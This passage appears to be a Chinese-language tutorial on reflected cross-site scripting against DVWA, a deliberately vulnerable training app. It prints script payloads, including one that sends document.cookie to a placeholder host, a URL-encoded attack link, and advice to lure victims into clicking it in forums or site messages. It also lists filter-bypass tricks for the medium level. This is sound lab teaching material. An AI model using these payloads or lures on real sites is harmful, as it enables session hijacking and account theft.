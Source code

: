 ```
<script>var img=document.createElement("img");img.scr=alert(document.cookie);</script>
```

发送 cookie 到远程服务器

```
<script>var img=document.createElement("img");img.scr="http://xxxx/a?"+escape(document.cookie);</script>
```

## 攻击

**攻击方式**

我们输入恶意代码后的 url

```
http://192.168.119.129:8080/vulnerabilities/xss_r/?name=%3Cscript%3Evar+img%3Ddocument.createElement%28%22img%22%29%3Bimg.scr%3D%22http%3A%2F%2Fxxxx%2Fa%3F%22%2Bescape%28document.cookie%29%3B%3C%2Fscript%3E#
```

把 url 发送给被攻击者，诱导点击


**攻击场景**

论坛里，插入一个链接，点链接的人中招

站内信


## 中级利用

DVWA medium

**网站源码**

```
XSS (Reflected) Source
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input，替换 <script> 标签
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
?>
```

**绕过方式**

- 双写绕过 `<script>` 替换
- 大写绕过
- 使用其他标签，例如 `<img>`
